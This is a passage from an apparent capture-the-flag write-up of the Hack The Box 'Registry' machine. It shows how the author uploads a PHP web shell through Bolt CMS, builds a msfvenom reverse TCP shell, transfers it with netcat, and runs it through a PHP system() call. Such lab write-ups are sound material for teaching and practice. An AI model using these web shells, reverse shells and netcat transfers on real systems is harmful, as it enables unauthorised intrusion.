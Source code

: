 Adding php to the list of allowed extensions allows us to upload a php shell. However, this config.yml file is reverted after 10 or so seconds, so we'll need to keep this window open for now.

### Uploading our Shell

Now that we've allowed php extensions, we can upload a php shell at http://backup.registry.htb/bolt/bolt/files

As mentioned earlier, we'll need to be quick in uploading this file, as the config.yml file reverts regularly. To add to the difficulty, whatever php shell we upload will disappear within 15 to 20 seconds.

### Executing our Shell

We can call our shell at the following URL:

http://backup.registry.htb/bolt/files/shell.php

However, we don't receive a connection back. This is because the machine can't make any connections outside of its localhost (it can only accept connections originating externally.) However, because it can receive connections originating from its localhost, we can still exploit this vulnerability.

### Creating a Shell

We'll use msfvenom to create our shell:

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf > shell.elf
```

To upload the shell, we'll need to use netcat, as we can't wget it, since the machine can't make any outgoing external connections:

_On the victim machine:_
```
nc -nlvp 4444 > shell.elf
```
_On our attacking machine:_
```
nc -nv 10.10.10.159 4444 < shell.elf
```

We now need to allow www-data to run the shell:

```
chmod 777 shell.elf
```

Now, with our shell in place, we can set up a nc listener on the victim machine to catch it locally:

```
nc -nlvp 4444
```

Using the following php shell payload, we are able to execute the shell as www-data:

```
<?php 
        echo system('/var/tmp/shell.elf');      
?>
```
